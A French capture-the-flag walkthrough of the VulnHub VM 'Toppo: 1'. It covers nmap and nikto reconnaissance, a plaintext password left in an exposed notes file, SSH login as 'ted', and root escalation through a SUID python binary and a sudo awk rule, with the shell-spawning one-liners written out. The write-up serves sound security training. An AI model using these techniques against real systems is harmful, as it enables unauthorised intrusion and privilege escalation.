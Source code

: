 # Toppo: 1

[Toppo: 1](https://www.vulnhub.com/entry/toppo-1,245/) est une machine virtuelle vulnérable, conçue par [Hadi Mene](https://twitter.com/h4d3s99) et publiée sur VulnHub au mois de juillet 2018. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Recherche d'informations

L'adresse IP de la VM Toppo nous est gracieusement fournie à l'écran d'ouverture de session : 192.168.56.104.

Toute phase d'attaque commence par une analyse du système cible. Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Il est ainsi notamment possible de se connecter à distance avec SSH au serveur Toppo, sur le port 22 ; un serveur Web Apache 2.4.25 est par ailleurs installé et en écoute sur le port 80, il semble héberger un blog. 

```console
root@blinils:~# nmap -sT -sV -p- -A 192.168.56.104
--snip--
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          38847/tcp  status
|_  100024  1          44180/udp  status
38847/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:9C:F3:5A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.71 ms 192.168.56.104
```

Quatre articles de blog, un formulaire de contact, et rien de plus à se mettre sous la dent. Après avoir parcouru manuellement le site, un peu de recherche automatisée ne fera pas de mal avec [__nikto__](https://cirt.net/nikto2-docs/), un outil d'audit pour serveurs Web.

```console
root@blinils:~# nikto -h 192.168.56.104
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.104
+ Target Hostname:    192.168.56.104
+ Target Port:        80
+ Start Time:         2018-07-07 07:07:00 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ Server leaks inodes via ETags, header found with file /, fields: 0x1925 0x563f5cf714e80 
+ The anti-clickjacking X-Frame-Options header is not present.
--snip--
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7535 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2018-07-07 07:07:07 (GMT-4) (7 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Le [_directory listing_](https://www.it-connect.fr/quest-ce-que-le-directory-browsinglisting/) est activé sur le serveur, et ça tombe bien, le répertoire ```/admin/``` contient un unique fichier ```notes.txt```.

```console
root@blinils:~# curl http://192.168.56.104/admin/notes.txt
Note to myself :

I need to change my password :/ 12345ted123 is too outdated but 
the technology isn't my thing i prefer go fishing or watching soccer .
```

À défaut d'avoir trouvé une mire d'authentification sur le blog, j'ai tenté de me connecter en SSH... oui mais avec quel utilisateur ? Après de (très) nombreux essais infructueux avec différentes listes [(1)](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) [(2)](https://github.com/insidetrust/statistically-likely-usernames) [(3)](https://github.com/jeanphorn/wordlist) glanées sur Github, j'ai tenté ```ted```. Juste ```ted```, comme dans le mot de passe... et ça a marché. Damn!

```console
root@blinils:~# ssh ted@192.168.56.104
ted@192.168.56.104's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 15 12:33:00 2018 from 192.168.0.29
ted@Toppo:~$ uname -a
Linux Toppo 3.16.0-4-586 #1 Debian 3.16.51-3 (2017-12-13) i686 GNU/Linux
ted@Toppo:~$ id
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
ted@Toppo:~$
```

## À l'affût d'une élévation de privilèges avec linuxprivchecker.py

Le script [__linuxprivchecker.py__](https://github.com/sleventyeleven/linuxprivchecker) développé par Mike Czumak (@SecuritySift) va scanner un certain nombre d'éléments sur le serveur : configuration de la machine, version du noyau Linux, listing des utilisateurs et de leurs privilèges, fichiers aux droits trop permissifs... et renvoie à la fin du scan une liste d'exploits censés permettre une élévation de privilèges.

```console
ted@Toppo:~$ wget -q http://192.168.56.102:8000/linuxprivchecker.py

ted@Toppo:~$ ls
linuxprivchecker.py

ted@Toppo:~$ python linuxprivchecker.py
=================================================================================================
LINUX PRIVILEGE ESCALATION CHECKER
=================================================================================================

--snip--

[+] Sudoers (privileged)
    ted ALL=(ALL) NOPASSWD: /usr/bin/awk

--snip--

[+] Current User
    root

[+] Current User ID
    uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)

[!] ARE YOU SURE YOU'RE NOT ROOT ALREADY?

[+] Checking if root's home folder is accessible
    /root:
    total 24K
    drwx------  2 root root 4.0K Apr 15 11:40 .
    drwxr-xr-x 21 root root 4.0K Apr 15 10:02 ..
    -rw-------  1 root root   53 Apr 15 12:28 .bash_history
    -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
    -rw-r--r--  1 root root  140 Nov 19  2007 .profile
    -rw-r--r--  1 root root  397 Apr 15 10:19 flag.txt
	
--snip--
```

WHAT! La valeur de mon [euid](http://www.linux-france.org/article/dalox/unix03.htm) est 0, et je peux lire le contenu du répertoire ```/root```. Par quel miracle ?

```console
ted@Toppo:~$ python linuxprivchecker.py

--snip--

[+] SUID/SGID Files and Directories
    drwxr-sr-x 3 root systemd-journal 60 Jul 12 11:52 /run/log/journal
    drwxr-s--- 2 root systemd-journal 60 Jul 12 11:52 /run/log/journal/255354b061a24857a8a597fb3ef2d05e
    --snip--
    drwxrwsr-x 4 root staff 4096 Apr 15 10:07 /usr/local/lib/python2.7
    drwxrwsr-x 2 root staff 4096 Apr 15 10:06 /usr/local/lib/python2.7/dist-packages
    drwxrwsr-x 2 root staff 4096 Apr 15 10:07 /usr/local/lib/python2.7/site-packages
    --snip--
    -rwsrwxrwx 1 root root 3889608 Aug 13  2016 /usr/bin/python2.7
	
--snip--
```

Waouh ! Grâce au (ou plutôt à cause du) [setuid](https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/) positionné sur le binaire python, qui appartient à root. En résumé, lorsque l'utilisateur ted exécute une commande python, celle-ci est lancée avec les droits root. À nous les droits root et le fichier ```flag.txt``` ! Plusieurs possibilités s'offrent alors à nous.

### Élévation de privilèges avec le binaire python (bit SUID)

```console
ted@Toppo:~$ id
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)

ted@Toppo:~$ python -c 'import pty; pty.spawn("/bin/sh")'

# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
```

### Élévation de privilèges avec le binaire awk (configuration sudo)

Il est également possible de se servir de l'information fournie par le fichier ```/etc/sudoers```.

```console
ted@Toppo:~$ ls -al /usr/bin/awk
lrwxrwxrwx 1 root root 21 Apr 15 10:01 /usr/bin/awk -> /etc/alternatives/awk

ted@Toppo:~$ id
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)

ted@Toppo:~$ awk 'BEGIN {system("/bin/sh")}'

# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
```

Une petite ligne de Python pour définitivement passer root et nous y sommes !

```console
# python -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/sh");'

# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth),1000(ted)

# wc -c /root/flag.txt
397 /root/flag.txt
```

En bonus, la version rapide... et en parallèle, [__John The Ripper__](https://www.openwall.com/john/) a trouvé les 7 lettres du mot de passe de root en 7 secondes.

```console
ted@Toppo:~$ python -c "f=open('/root/flag.txt','r');print f.read();f.close();"

[REDACTED]
```

Voilà qui conclut ce _walkthrough_, merci à [Hadi Mene](https://twitter.com/h4d3s99) sur sa VM _boot2root_ Toppo: 1 !
